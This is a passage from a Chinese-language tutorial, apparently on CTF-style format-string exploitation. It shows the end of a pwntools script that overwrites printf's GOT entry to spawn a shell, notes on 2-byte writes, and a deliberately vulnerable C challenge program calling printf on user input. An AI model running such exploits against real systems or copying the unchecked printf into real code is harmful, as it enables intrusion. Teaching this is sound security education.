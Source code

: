 ```python
payload += p64(base+elf.got['printf']+2)
payload += p64(base+elf.got['printf']+4)

p.sendline(payload)
p.sendline(b"/bin/sh\x00")
p.interactive()
```

脚本将 system 的地址（6 字节）拆分为 3 个 word（2 字节），是因为如果一次性输出一个 int 型以上的字节，printf 会输出几 GB 的数据，在攻击远程服务器时速度很慢，或导致 broken pipe。

注意，在 64 位的程序中，地址往往只占 6 字节，高位的 2 字节必然是 `\x00`，所以 3 个地址一定要放在 payload 最后，而不是放在最前面。虽然放在最前面偏移量更好计算，但是 printf 输出字符串时到 `\x00` 为止，地址中的 `\x00` 会截断字符串，之后用于写入地址的占位符并不会生效。

### 5.4 不在栈上的利用方式

（待补）

### 5.5 一些特殊用法

格式化字符串有时会遇到一些比较少见的占位符，如 `*` 表示取对应函数参数的值来作为宽度，`printf("%*d",3,1)` 输出 “  1”，1 的前面有两个占位符。

#### 示例：格式化字符串特殊用法

```c
#include<stdio.h>
#include<unistd.h>
#include<fcntl.h>

int main() {
    char buf[100];
    long long a=0;
    long long b=0;
    int fp = open("/dev/urandom",O_RDONLY);
    read(fp, &a, 2);
    read(fp, &b, 2);
    close(fp);
    
    long long num;
    puts("your name:");
    read(0, buf, 100);
    puts("input a number to get a gift:");

    long long *num_ptr = &num;
    scanf("%lld", num_ptr);
    printf("hello ");
    printf(buf);
    printf("let me see ...");
    if(a+b == num) {
        puts("you win, I will give you a shell!");
        system("/bin/sh");
    }
    else {
        puts("try again");
        exit(0);
    }
}
```
